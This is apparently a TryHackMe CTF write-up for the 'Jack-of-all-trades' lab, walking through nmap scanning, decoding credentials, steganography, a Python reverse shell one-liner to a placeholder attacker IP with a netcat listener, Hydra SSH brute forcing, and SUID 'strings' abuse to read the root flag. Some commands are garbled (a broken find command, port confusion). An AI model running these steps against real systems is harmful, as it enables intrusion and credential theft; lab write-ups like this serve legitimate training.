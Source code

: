# TRYHACKME
STEP 1:-  
scan target using nmap -sV -T4 -vv [ip]
here show the port 22 ssh and 80 http are open, so we open the browser and open website on port 22

here we show the website and also show the source code:-

```
<html>
	<head>
		<title>Jack-of-all-trades!</title>
		<link href="assets/style.css" rel=stylesheet type=text/css>
	</head>
	<body>
		<img id="header" src="assets/header.jpg" width=100%>
		<h1>Welcome to Jack-of-all-trades!</h1>
		<main>
			<p>My name is Jack. I'm a toymaker by trade but I can do a little of anything -- hence the name!<br>I specialise in making children's toys (no relation to the big man in the red suit - promise!) but anything you want, feel free to get in contact and I'll see if I can help you out.</p>
			<p>My employment history includes 20 years as a penguin hunter, 5 years as a police officer and 8 months as a chef, but that's all behind me. I'm invested in other pursuits now!</p>
			<p>Please bear with me; I'm old, and at times I can be very forgetful. If you employ me you might find random notes lying around as reminders, but don't worry, I <em>always</em> clear up after myself.</p>
			<p>I love dinosaurs. I have a <em>huge</em> collection of models. Like this one:</p>
			<img src="assets/stego.jpg">
			<p>I make a lot of models myself, but I also do toys, like this one:</p>
			<img src="assets/jackinthebox.jpg">
			<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
			<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
			<p>I hope you choose to employ me. I love making new friends!</p>
			<p>Hope to see you soon!</p>
			<p id="signature">Jack</p>
		</main>
	</body>
</html>
```
here we show the three images and username jack and also base 64 encodded string, directory /recovery.php.

STEP 2:-  
go to the site and traverse recovery.php directory, here we show the login page is open.  
we uses cybershef for decoding string for finding password, we find password.  
username=jack
&&password=u?WtKSraq  
we just uses this but this credential don't work.  
so we uses previous images and extract them using steghide.  

CMD:-steghide extract -sf [image name]  
I cannot extract hidden data inside jackinthebox.jpg with that password so just skip it. Let’s see what’s inside the “creds.txt”.
try on rest to images, this is need the password that we find above and this work.  
i have extracted files.  
here stego.jpg not have any info, so we open second image file that have list of passwords.  

```
# cat cms.creds
Here you go Jack. Good thing you thought ahead!
Username: jackinthebox
Password:TplFxiSHjY
```
now we have username and password, than i goto the login page and enter cred. that's work.  

STEP 3:-  
here i show the this page will enter cmd on url, so i think i need to uses some reverse shell cmd.
```
python -c "import socket,subprocess,os,pty; s=socket.socket(); s.connect(('YOUR_IP',4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn('/bin/bash')"

🔧 Explanation (Step-by-step)
1. Imports
import socket, subprocess, os, pty

socket – Used to create a network connection.
subprocess – Can be used to run system commands.
os – To duplicate file descriptors.
pty – Gives us a pseudo-terminal for better shell interaction.

2. Create a socket
s = socket.socket()

This creates a TCP socket using default parameters (AF_INET, SOCK_STREAM).

3. Connect to Attacker (Your Listener)
s.connect(('YOUR_IP', 4444))

Replaces 'YOUR_IP' with your Kali machine IP (or the attacker's IP).
4444 is the port on which your netcat is listening.

4. Redirect Standard File Descriptors
os.dup2(s.fileno(), 0)  # stdin
os.dup2(s.fileno(), 1)  # stdout
os.dup2(s.fileno(), 2)  # stderr

This redirects standard input/output/error to the socket.
That way, commands typed on the attacker machine are sent to the victim.

5. Spawn a TTY Shell
pty.spawn('/bin/bash')

Spawns an interactive bash shell.
Helps avoid issues like broken ls, clear, tab-completion, etc.
```
than go to my terminal and open the web shell.  

```
Start a listener:
nc -lvnp 4444
www-data@jack-of-all-trades:/var/www/html/nnxhwe0V$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@jack-of-all-trades:/home$ cat jacks_password_list
cat jacks password list
*hclqAzj+2GC+=0K
 eN<A@n^zI?FE$15,
 X<(@zo2XrEN)#MGC
 ,,aE1K,nW30s,afb
 ITMJpGGIqg1jn?>@
 0HguX{,fgXPE;8yF
 sjRUb4*@pz<*ZITu
 [8V7o^gl(Gjt5[WB
 yTq0jI$d}Ka<T}PD
 Sc.[[2pL<>e)vC4}
 9;}#q*,A4wd{<X.T
 M41nrFt#PcV=(3%p
 GZx.t)H$&awU;SO<
 .MVettz]a;&Z;CAC
 2fh%i9Pr5YiYIf51
 TDF@mdEd3ZQ(]hBO
 v]XBmwAk8vk5t3EF
 9iYZeZGQGG9&W4d1
 8TIFce;KjrBWTAY^
 SeUAwt7EB#fY&+yt
 n.FZvJ.x9sYe5s5d
 8lN{)g32PG,1?[pM
 z@e1PmlmQ%k5sDz@
 ow5APF>6r,y4krSo
```

STEP 4:-  
copy the above password list and make passwd.txt file.  
here we already have username=jack using above password file we crack the password using hydra.  
CMD:-hydra -l jack -P password.txt -u ssh://[ip]  
this will give password and that credential will gain ssh server shell access.  

```
jack@jack-of-all-trades:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack), 24(cdrom), 25 (floppy), 29(audi o), 30(dip), 44(video), 46(plugdev), 108 (netdev), 115 (bluetooth), 1001(dev)
jack@jack-of-all-trades:~$
```
here we show the we gain user jack privilages.  

STEP 5:-  
HERE we need to gain as root privilages.  
```
jack@jack-of-all-trades:~$ sudo -l
[sudo] password for jack:
Sorry, user jack may not run sudo on jack-of-all-trades.
jack@jack-of-all-trades:~$
```
here that's not work, so we need to find all files that exucute by root.
```
jack@jack-of-all-trades:~$ find / -permus 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
jack@jack-of-all-trades:~$ |
```
Found strings with SUID bit set. Oh no, not the classic mistake! This meant I could read any file on the system with root privileges, including the root flag file.
```
jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```

SUMMARY:-  
"This challenge was an absolute blast! It combined everything—from unconventional ports and OSINT to steganography and privilege escalation. I really appreciated how it strung together multiple techniques in a logical progression, testing not just individual skills but also the ability to connect the dots and think holistically."

